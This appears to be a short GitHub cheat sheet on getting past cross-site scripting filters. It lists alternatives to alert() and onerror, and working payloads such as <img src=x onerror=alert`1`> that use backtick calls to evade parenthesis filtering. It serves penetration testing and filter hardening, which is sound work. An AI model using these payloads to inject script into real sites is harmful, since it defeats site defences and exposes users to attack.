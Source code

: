 # XSS Filters Bypass.

if You Are New then You Can Read the basics here :-https://fanimalikhack.medium.com/xss-powerful-methodology-for-beginners-797633a2efd0


* ```alert()``` Alternatives
```
   1)Use confirm() Not alert()
   2)Use prompt() Not alert()
   3)Use console.log() Not alert()
   4)use eval() Not alert()
```

* ```onerror``` Event Handler Alternatives
```
   1)Use onload
   2)Use onfocus
   3)Use onmouseover
   4)Use onblur
   5)Use onclick
   6)Use onscroll   
```
* Note:- if () get filtered then Use \`\` Rather then () , Some Examples Are Below

```
   1)<script>alert`1`</script>
   2)<img src=x onerror=alert`1`>
   3)<img src=x onerror=prompt`1`>
   4)javascript:prompt`1`
```

